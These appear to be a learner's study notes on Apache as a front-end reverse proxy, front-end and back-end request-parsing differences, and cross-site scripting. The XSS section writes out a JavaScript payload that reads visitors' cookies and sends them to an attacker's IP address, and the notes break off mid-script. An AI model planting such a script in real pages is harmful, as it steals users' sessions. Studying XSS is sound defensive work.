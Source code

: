 - How **Apache** Works?
        1. It's Fronted-Server >> it takes the http requests first
        2. In this point >> it tries to *hide internal part of the server such as backend*
        3. It does *security filtering*
           - Block bad IPs
           - Filter malicious input
           - Add SSL/TLS (HTTPS)
           - Do basic firewall duties
           - Why all this? >> *to safeguard the back-end and less exposed to the internet*
        4. It does *load balancing*
           - send traffic  >> Server #1 >> #2 >> #3
        5. It does *URL Rewriting*
           - let's say >> the apache got this >> `/categories/books`
           - it rewrites >> `/categories.php?id=books`
           - Why? to have **nice clean URL for the user**

- How **Apache May Talk To Back-end?:**
        1. Usually through `reverse proxy:`
            - forward proxy >> `client > proxy > internet` (protects client)
            - reverse proxy >> `server-side proxy` >> the client > server > `server proxies it internally to a hidden backend app.`
            - so it protects server
           - `User → Reverse Proxy (Apache) → Backend`

- **Some Difference in Request Handling**
        1. Apache may send `raw HTTP requests` without filter/ normalizing / sanitizing
        2. Backend may `execute the malicious requests`
        **Or**
        1. The front-end server (Nginx) might read `only the first part`
        2. But the back-end server (PHP-FPM) might read `the entire thing`

## Cross-Site Scripting (XSS) & Code Injection Detection
- **How it works**
    1. attacker puts malicious code in web page through the user input (comments)
    2. then when other users visit our website, this code in the comments let's say will be executed
    3. then it sends other visitors credentials to the attacker

    4. Script example in JavaScript
        - `<script>
                // 1. When the page finishes loading, run the function
                window.addEventListener("load", function() {

                // 2. Set the attacker's server URL where data will be sent
                const url = "http://192.168.0.19:5555";

                // 3. Prepare the data to send: the user's cookies, URL-encoded
                const params = "cookie=" + encodeURIComponent(document.cookie);

                // 4. Create a new HTTP request object
                const request = new XMLHttpRequest();

                // 5. Configure the request to send a GET to attacker's server with cookies as a query parameter
                request.open("GET", url + "?" + params);

